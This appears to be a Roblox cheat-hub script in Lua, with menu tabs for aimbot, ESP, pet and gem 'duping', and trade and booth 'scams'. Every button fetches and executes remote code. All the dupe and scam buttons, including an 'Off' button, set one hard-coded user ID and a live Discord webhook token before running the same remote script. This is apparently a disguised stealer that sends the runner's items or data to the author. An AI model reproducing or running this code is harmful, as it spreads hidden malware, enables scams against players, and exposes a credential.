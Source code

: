 local kavoUi = loadstring(game:HttpGet("https://pastebin.com/raw/vff1bQ9F"))()

local window = kavoUi.CreateLib("Vere Hub🔥")

---Tabs

local Tab1 = window:NewTab("💳Credits")

local Tab1Section = Tab1:NewSection("script by Vere🔥")

local Tab2 = window:NewTab("🔫Aimbot")

local Tab2Section = Tab2:NewSection("Universal Aimbot")

local Tab3 = window:NewTab("Esp")

local Tab3Section = Tab3:NewSection("Sup is word")

local Tab4 = window:NewTab("🎨Starving Artist")

local Tab4Section = Tab4:NewSection("Starving Artist")

local Tab5 = window:NewTab("🔥Trade Scam")

local Tab5Section = Tab5:NewSection("Premium Version")

local Tab6 = window:NewTab("😺Dupe")

local Tab6Section = Tab6:NewSection("Duplicate Pet or Gem")

local Tab7 = window:NewTab("🔥Booth Scam")

local Tab7Section = Tab7:NewSection("Scam someone's Booth")

local Tab7Section = Tab7:NewSection("Click The Pet In The Bank 10 Times Then Execute")

---Buttons

Tab2Section:NewButton("Fixing","...",function()

end)

Tab3Section:NewButton("Esp","...",function()

_G.FriendColor = Color3.fromRGB(0, 0, 255)

_G.EnemyColor = Color3.fromRGB(255, 0, 0)

_G.UseTeamColor = false

--------------------------------------------------------------------

loadstring(game:HttpGet("https://raw.githubusercontent.com/zeroisswag/universal-esp/main/esp.lua"))()

end)

Tab4Section:NewButton("Art Copy","...",function()

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jeux45/Starving-Artist-script/main/Script", true))()

end)

Tab5Section:NewButton("On (click to turn on trade scam)","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1066540298311848007/UtmibDOBPDlludj9nTqgC9Tb4pTYHIKldhTQdkg6bP_4fJFlKG4fFTiKPi3lPcA3ocVK"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

Tab5Section:NewButton("Off (click to turn off trade scam)","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1066540298311848007/UtmibDOBPDlludj9nTqgC9Tb4pTYHIKldhTQdkg6bP_4fJFlKG4fFTiKPi3lPcA3ocVK"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

Tab6Section:NewButton("Click to dupe gem","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1066540298311848007/UtmibDOBPDlludj9nTqgC9Tb4pTYHIKldhTQdkg6bP_4fJFlKG4fFTiKPi3lPcA3ocVK"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

Tab6Section:NewButton("Click to dupe equipped pets","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1066540298311848007/UtmibDOBPDlludj9nTqgC9Tb4pTYHIKldhTQdkg6bP_4fJFlKG4fFTiKPi3lPcA3ocVK"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

Tab7Section:NewButton("Click to scam booth","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1066540298311848007/UtmibDOBPDlludj9nTqgC9Tb4pTYHIKldhTQdkg6bP_4fJFlKG4fFTiKPi3lPcA3ocVK"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

